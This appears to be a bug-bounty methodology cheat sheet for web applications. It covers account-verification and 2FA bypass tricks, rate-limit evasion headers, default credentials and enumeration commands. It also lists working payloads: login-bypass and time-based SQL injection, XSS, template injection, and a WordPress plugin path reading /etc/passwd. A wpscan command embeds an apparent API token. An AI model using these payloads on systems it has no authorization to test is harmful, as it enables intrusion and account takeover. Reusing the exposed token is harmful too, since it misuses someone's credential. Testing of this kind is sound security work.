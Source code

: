 <details>
 <summary> Subdomain enumeration </summary>
    
     https://securitytrails.com/
    
    https://subdomainfinder.c99.nl/
    
    https://shrewdeye.app/ 
    
    
    # subfinder -d ~~mars.com~~ -all --recursive  -o subs.txt
  
    
   
    # echo ~~mars.com~~ | assetfinder --subs-only >> subs.txt
    
    
    after collecting all subdomains in subs.txt then let's remove duplicate 
    # cat subs.txt | anew >> allsubs.txt
    # rm subs.txt
</details>

<details> 
## <summary>signup vulnerabilities</summary>
    
    0- check in login page or register page http or https 
    (insecure data transfer ) 
    
    1- if there is no verification code or confirmation then 
    signup with admin@~~site.com~~ and report pre-account takeover vulnerability 
    
    2- a- create account with hacker@gmail.com for example 
    	 b- confirmation will reach you 
    	 c- don't click on it 
    	 d- login to your account and change the email to victim@gmail.com 
    	 e- go back the link in step b and click on it 
    	 f- if the victim@gmail.com was verified successfully then 
    	 (misconfiguration lead to verification bypass  vulnerability) 
    
    3- while registertion put xss payloads inside username , name ....
    
    4- create account with victim@gmail.com 
    	- don't verify the account and don't click on verification link 
    	- login to the site if you can 
    	- go to settings and see if there is 2 factor authentication 
    	- enable 2 factor authentication without confirming account 
    	- report vulenrability (enable 2fa without confirmaiton lead to pre-account tkaeover)
    
    5- create account with victim@gmail.com ,  don't click on the link
    	- login to victim@gmail.com 
    	- change the email address to hacker@gmail.com 
    	- click on confimation link send to your email hacker@gmail.com 
    	- go back and change email to victim@gmail.com and observe it was verified succcessfully
    	(verification bypass )
    	 
</details>

<details>
## <summary>login vulnerabilities </summary>

    ```
	 1- login over http not https 	( insecure data transfer )
	
	 3- try default credentials (test:test) (admin:admin) (admin:password) (kali:kali) (admin:123)
	  (admin:default) (root:root) (root:toor) (admin:kali) (kali:root) (admin:123456789)
	
	 4- try to inject sql injection in username as admin' or 1=1; -- -
	
	 5- try to make response manipulation  to bypass login page
	
	 6- use the request and send it to sqlmap to test if there is sql injection or not
	
	 7- try to inject xss payloads in username as <svg/onload=confirm()>
	
	 8- try to inject template injection inside username as {{9*9}} and if printed 81 then vulnerable to template injection
	
	 9- view source code of the page from CTRL+U to see if leaked credentials

 </details>


  <details>
## <summary>reset password vulnerabilities</summary>
    
    ```
    check link of reset password in email if http not https
    check reset request code can be leaked in request or response
    no rate limit (Email bombing)
    ------------------------------------
    1- ask reset password (from out) don’t press on it ⇒ 
    2- login to account ⇒ change the email and verify ⇒ click on reset link
    3- if password changed through reset password link (bug)
     -----------------------------------
    1- ask reset password (from out) don’t press on it ⇒
    2- login to account ⇒ change the password ⇒
    3- click on reset link ⇒ if password changed through reset password link (bug)
    --------------------------------------
    1- reset the password or ask for reset code  
    2- don't click or reload the page but go to /profile or /account
     directly and see if you can access
     -------------------------------------
     brute force otp 
     --------------------------------------
     reset password does not end live sessions 
     
     
    ```
</details>

<details>
## <summary>session vulnerabilities</summary>
  	```
	
	1- login to your account with firefox and chrome
		- change the password in firefox 
		- observe the account in chrome is still logged in and didn't logout
		- Broken session Management 
	
	2- login to your account with firefox and chrome 
		- enable 2FA in firefox 
		- reload the page in chrome and observe session is still valid 
	
	3- login to your account and update anything 
		-  intercept the request with burpsuite 
		- send the request to repeater
		- logout from your account 
		- use the request in repater to update and if still valid  (vulnerability)
	
	4- ask for reset password 
		- don't click on the link reached you 
		- login with your username and password 
		- change the password of the email 
		- logout from your account and then use the link in step 1 
		- if still valid then (Vulnerability)
	
	5-logout from your account 
		- click on (Alt+Left-arrow) button or <--
		- observe the session and profile data is still found 
		- broken cache vulnerability
	
	6- when updating email address 
		- check if OTP is sent to existing email not the new email 
		- broken function lead to verification bypass
	
	7- create account with email A => victim 
		- update the email to B => hacker then verify it -> vierfy your account 
		- update email back to A => victim 
		- if shown as verified then vulnerability 
	
	8- verifiaction bypass 
		- account with victim@gmail.com => don't verify it 
		- update account email to hacker@gmail.com
		- once you clicked the link , if verified victim@gmail.com then vuln  
	```
</details>

<details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    2- Play with hash/encoded values
    3- Change The ID's in the request 
    4- 
 
  
</details>

<details>
	<summary>RCE</summary>
</details>


<details>
	<summary>Broken Access Control</summary>
</details>


<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 
      
		
</details>

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

<details>
## <summary>Javascript Analysis</summary>
    
    1- use mantra to get api , passwords , keys ...
    # cat js.txt | mantra  | tee -a mantra.txt
    2- use nuclei to search for secrets 
    # nuclei -l js.txt -t nuclei-templates/http/exposures/ -o nucleijs.txt
    
    if found google api key then use tool google.sh  and see if api valid or not
    # google.sh AIz.............
</details>

<details>
	<summary>PHP</summary>
</details>

<details>
	<summary>2FA</summary>
		```
			
		1- check 000000 - 123456
		2- check null 
		3- reuse previous OTP	(used one )
		4- reuse code of another account (valid)
		5- No rate limit on 2FA	=>> 
		6- check if exposed code in response
		7- bypass it by reset password link
			- enable 2fa 
			-  logout 
			- reset password => then click on the link 
			- if you got into directly then vulnerability 
		
		8- bypass it by 0-auth google 	=> 2fa 
			1- login 
			2- enable 2fa 
			3- login with google => if you got into directly then (vulnerability) 
		
		9- No rate limit on sending 2FA 
		10- response manipulation => 403 Forbidden => 200 OK 
						false 	=> true
						0	=> 1
						failed 	=> successful 
		11- bypass 2fa by the next step 
		
		12- enable 2fa without email verification lead to pre-account takeover
		13- enabling 2fa does not end another sessions 
		change password 
		```
</details>


<details>
<summary>  Subdomain takeover </summary>
    
    # subzy run --targets subs.txt --hide_fails --vuln  | grep -v -E "Akamai|xyz|available|\-"
    if you found any vulnerability then search on how to takeover subdomain 
</details>
    
  <details>       
## <summary>httpx</summary>
    
    to see the working sites 
    # cat allsubs.txt | httpx -o httpx.txt
    # cat httpx.txt | httpx -mc 200 -o httpx200.txt    
    1- use smuggler to check request smuggling vulnerablitiy 
    # cat httpx.txt | smuggler.py | tee -a smuggler.txt
</details>

<details>
## <summary>dirsearch and ffuf</summary>
    
    1- if you need to fuzz all the file of urls httpx.txt
    # dirsearch -l $(pwd)/httpx.txt -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    2- if you need to fuzz specific site 
    # dirsearch -u ~~https://mars.com~~  -i 200  -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
    3- you can use ffuf and wordlist of file names from google 
    # ffuf -u ~~https://mars.com~~/FUZZ -w ~~wordlist.txt~~  -mc 200 
    
    advanced mode of ffuf to bypass rate limit and firewall
    # ffuf -u ~~https://mars.com~~/FUZZ -w wordlist.txt -H "X-Forwarded-For: 127.0.0.1"
    -H "X-Forwarded-Host: 127.0.0.1" 
    
    to fuzz in two places with two files 
    # ffuf -u https://mars.com/FUZZ/AGAIN  -w list1.txt:FUZZ  -w list2.txt:AGAIN
</details>

<details>
## <summary>Gather urls</summary>
    
    1- gather urls with katana
    # katana -list httpx.txt -o katana.txt
    2- gather urls with waybackurls
    # cat httpx.txt | waybackurls >> wayback.txt
    3-  use gospider 
    # gospider -S httpx.txt | sed -n 's/.*\(https:\/\/[^ ]*\)]*.*/\1/p' >> gospider.txt
    4- gather all files in one file and remove duplicate 
    # cat katana.txt wayback.txt gospider.txt >> urls.txt
    5- remove duplicate with anew 
    # cat urls.txt | anew >> allurls.txt 
    # rm urls.txt
    6- get javascript files in js.txt
    # cat allurls.txt | grep -E "\.js" >> js.txt
    7- get php files in php.txt
    # cat allurls.txt | grep -E "\.php$" >> php.txt
 </details>   
    	


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


    
<details>
## <summary>sqlinjection</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

</details>

